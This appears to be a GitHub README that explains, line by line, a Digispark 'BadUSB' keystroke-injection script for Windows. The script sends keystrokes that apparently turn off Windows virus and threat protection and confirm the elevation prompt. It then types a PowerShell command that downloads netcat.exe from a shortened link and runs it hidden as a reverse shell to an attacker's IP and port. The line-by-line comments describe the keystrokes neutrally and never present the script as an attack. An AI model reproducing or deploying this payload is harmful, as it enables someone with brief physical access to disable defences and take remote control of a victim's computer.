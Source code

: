 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>
<code><div align="center"><color="#00979C">#include "DigiKeyboard.h"</code>
<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>

<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>

<em><div align="center"><code>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Enter key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(5000);</code>

<em><div align="center"><code>A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center"><code>Yet another Enter key press is simulated.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>Another delay of 700 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>

<em><div align="center"><code>The sendKeyStroke() function simulates pressing the Space key.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(2000);</code>

<em><div align="center"><code>A delay of 2000 milliseconds (2 seconds) is added.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>A delay of 1000 milliseconds (1 second) is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(500);</code>

<em><div align="center"><code>A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div>
<code color="#00979C"><code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>

<em><div align="center"><code>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div>
<code color="#00979C">DigiKeyboard.delay(700);</code>

<em><div align="center"><code>A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div>
<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>

<em><div align="center"><code>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div>
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>

<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div> <code color="#00979C">void loop(){}</code>

<em><div align="center"><code>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div>




